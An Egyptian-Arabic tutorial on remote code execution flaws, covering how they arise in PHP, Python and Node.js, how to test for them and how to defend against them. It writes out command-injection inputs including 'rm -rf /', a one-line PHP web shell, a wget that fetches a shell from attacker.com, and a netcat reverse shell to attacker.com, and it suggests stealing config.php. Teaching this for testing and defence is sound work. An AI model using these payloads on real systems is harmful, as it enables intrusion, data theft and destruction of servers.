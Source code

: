 

# **📌 1️⃣ يعني إيه تنفيذ أوامر عن بُعد (RCE)؟**

ثغرة **RCE (Remote Code Execution)** هي أخطر نوع من الثغرات، لأنها بتسمح لأي حد إنه **يشغل أوامر برمجية على السيرفر عن بعد**، كأنه قاعد عليه!

**بمعنى تاني:**  
لو موقع أو سيرفر فيه ثغرة **RCE**، المهاجم يقدر يبعث له كود برمجي أو أمر **ويجبره على تنفيذه**. الأمر ده ممكن يكون أي حاجة زي:  
✅ سرقة بيانات من السيرفر.  
✅ إنشاء حسابات جديدة بصلاحيات **أدمن**.  
✅ تحميل ملفات خبيثة زي **Shell** للتحكم الكامل في الموقع.  
✅ حذف بيانات أو حتى **مسح السيرفر بالكامل**.

**🔍 مثال بسيط:**  
تخيل إنك عندك **كمبيوتر** وعامل برنامج يسمح للناس يبعتوا أوامر تشغّلها، بس المشكلة إنك **مش بتتأكد من الأوامر دي آمنة ولا لا**. أي حد يقدر يبعت له أمر زي:

```bash
rm -rf /
```

وده **يمسح كل الملفات** على الجهاز! 😵

## **💡 الخلاصة بالعامية:**  
**ثغرة RCE بتخلي الهاكر يبعت كود للموقع، والموقع ينفذه كأنه الأدمن! 😈🔥**

---

# **🛑 2️⃣ إزاي بتحصل ثغرات RCE؟**

ثغرة **RCE** بتحصل لما السيرفر **يسمح للمستخدمين يبعتوا كود أو أوامر من غير تأمين**. أشهر الأسباب اللي بتسببها:

## **🔹 1. عدم فلترة المدخلات (User Input Validation)**

✅ **مثال:**  
لو عندك موقع بياخد اسم المستخدم وينفذ عليه أمر زي ده:

```php
system("echo Hello, " . $_GET['name']);
```

لو المستخدم كتب كود خبيث بدل اسمه:

```bash
; rm -rf /
```

السيرفر هينفذ الأمر **ويحذف كل حاجة عليه**! 😱

---

# **🔹 2. استغلال ثغرات في تطبيقات الويب**

بعض أنظمة إدارة المحتوى زي **WordPress, Joomla, Drupal** بيكون فيها ثغرات RCE بتسمح برفع ملفات خبيثة زي **Web Shell**، والمهاجم بيتحكم في السيرفر كله!

---

# **🔹 3. ثغرات في دوال تنفيذ الأوامر**

بعض لغات البرمجة زي **PHP, Python, Node.js** بتحتوي على دوال تسمح بتنفيذ الأوامر مباشرة، زي:  
#### ✅ **في PHP:**

```php
system(), exec(), shell_exec(), passthru()
```

#### ✅ **في Python:**

```python
os.system(), subprocess.Popen()
```

#### ✅ **في Node.js:**

```js
child_process.exec()
```

لو المطور استخدم الدوال دي من غير تأمين، أي حد ممكن يستغلها.

## **💡 الخلاصة بالعامية:**  
ثغرات **RCE** بتحصل لما الموقع يسمح بتشغيل أكواد أو أوامر بدون حماية، زي دوال خطيرة أو سكريبتات مفتوحة للهاكرز! 😈🔥

---

# **🎯 3️⃣ أمثلة عملية لاستغلال RCE**

## **📌 1. تنفيذ أوامر من خلال Ping Test**

بعض المواقع بتسمحلك تدخل **IP** عشان تعمل Ping، ولو ما كانش فيه حماية كويسة، ممكن تكتب كود خبيث بدل الـ IP!

✅ **مثال على موقع عنده ثغرة RCE:**  
الكود التالي بينفذ أمر Ping على عنوان IP يدخله المستخدم:

```php
system("ping -c 4 " . $_GET['ip']);
```

لو دخلت كود زي ده:

```bash
127.0.0.1; whoami
```

السيرفر هينفذ الأمر **whoami** وهيطبع اسم المستخدم اللي شغال بيه السيرفر! 😈

---

## **📌 2. رفع Web Shell**

لو عندك RCE، ممكن تبعت أمر يرفع **Shell** زي `pentest.php`، وتتحكم في السيرفر بالكامل!  
✅ **مثال:**

```bash
wget http://attacker.com/shell.php -O /var/www/html/shell.php
```

بعد كده تفتح `http://victim.com/shell.php` وتبدأ تتحكم في السيرفر!

**💡 الخلاصة بالعامية:**  
✅ **RCE بتسمحلك تنفذ أوامر على السيرفر زي `whoami` و `ls` وتشوف كل حاجة فيه**.  
✅ **لو استغليتها صح، تقدر ترفع Shell وتتحكم في الموقع بالكامل! 😈🔥**

---

# **⚠️ 4️⃣ إزاي تحمي نفسك من ثغرات RCE؟**

✅ **فلترة المدخلات (Input Validation)**  
⛔ **ما تاخدش أي بيانات من المستخدم وتنفذها مباشرة**.

✅ **استخدام قيود على تنفيذ الأوامر (Sandboxing)**  
⛔ **ما تديش صلاحيات تنفيذ أوامر من السكريبت**.

✅ **تعطيل الدوال الخطيرة في PHP**  
📌 في ملف `php.ini` عطل الدوال الخطيرة:

```ini
disable_functions = system, exec, shell_exec, passthru, popen, proc_open
```

✅ **تحديث التطبيقات أول بأول**  
📌 سد الثغرات في **WordPress, Joomla, Drupal** والتأكد إن كل حاجة محدثة.

**💡 الخلاصة بالعامية:**  
**اقفل الدوال الخطيرة، فلتر المدخلات، ما تشغلش أكواد من المستخدم، وحدّث التطبيقات باستمرار**.

---

# **🔥 5️⃣ خطوات عملية لاستخدام RCE في اختبار الاختراق**

## **✅ 1. استكشاف الثغرة**

🔹 جرب تدخل **أوامر بسيطة** في أي مدخل مستخدم:

```bash
whoami
ls
uname -a
id
```

لو السيرفر رجعلك بيانات، يبقى عندك RCE! 😈

---

## **✅ 2. تأكيد استغلال الثغرة**

🔹 جرب تشغل أمر أطول:

```bash
ping -c 4 attacker.com
```

لو استلمت الـ Ping على جهازك، يبقى الثغرة شغالة تمام.

---

## **✅ 3. رفع Web Shell**

🔹 ارفع ملف PHP Shell بسيط زي ده:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

واحفظه كـ `shell.php`، بعدين شغله كده:

```bash
http://victim.com/shell.php?cmd=whoami
```

ده هينفذ الأمر اللي تبعته في السيرفر! 😈🔥

---

## **✅ 4. التحكم الكامل في السيرفر**

🔹 بعد ما ترفع الشيل، تقدر تعمل أي حاجة:  
✅ تشغيل **Netcat Reverse Shell**

```bash
nc -e /bin/sh attacker.com 4444
```

✅ سرقة ملفات **config.php** عشان تجيب بيانات قاعدة البيانات.  
✅ رفع **ملفات خبيثة** والتجسس على السيرفر.

---

# **🚀 الخلاصة النهائية**

🎯 **ثغرة RCE = المهاجم يقدر يبعت أكواد وأوامر وينفذها على السيرفر عن بعد**.  
🎯 **سببها الرئيسي = عدم تأمين المدخلات، واستخدام دوال خطيرة زي `system()` و `exec()`**.  
🎯 **ممكن يستخدمها المهاجم في سرقة البيانات، رفع شيل، أو حتى تدمير السيرفر بالكامل**.  
🎯 **الحماية منها = فلترة المدخلات، تعطيل الدوال الخطيرة، وعدم تشغيل أوامر من المستخدم مباشرة**.

🚀 كده عندك فهم عميق لثغرة **RCE** وكيفية استخدامها واختبارها بطريقة سهلة ومبسطة! 😎🔥